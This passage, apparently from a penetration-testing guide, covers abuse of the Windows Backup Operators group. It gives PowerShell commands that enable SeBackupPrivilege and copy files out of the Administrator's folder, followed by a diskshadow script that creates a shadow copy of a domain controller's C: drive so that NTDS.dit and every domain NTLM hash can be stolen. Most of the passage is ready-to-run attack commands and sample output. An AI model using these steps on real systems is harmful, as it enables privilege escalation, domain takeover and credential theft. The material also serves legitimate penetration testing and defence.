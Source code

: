 Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```

### **Local Attack**

```bash
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Get-SeBackupPrivilege # ...or whoami /priv | findstr Backup SeBackupPrivilege is disabled

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege

# List Admin folder for example and steal a file
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\\report.pdf c:\temp\x.pdf -Overwrite
```

### AD Attack

For instance, you can directly access the Domain Controller file system:

![](../../.gitbook/assets/a7.png)

You can abuse this access to **steal** the active directory database **`NTDS.dit`** to get all the **NTLM hashes** for all user and computer objects in the domain.

#### Using diskshadow.exe to dump NTDS.dit

Using [**diskshadow**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) you can **create a shadow copy** of the **`C` drive** and in the `F` drive for example. The, you can steal the `NTDS.dit` file from this shadow copy as it won't be in use by the system:

```
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 10:34:16 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% F:
DISKSHADOW> end backup
DISKSHADOW> exit
```
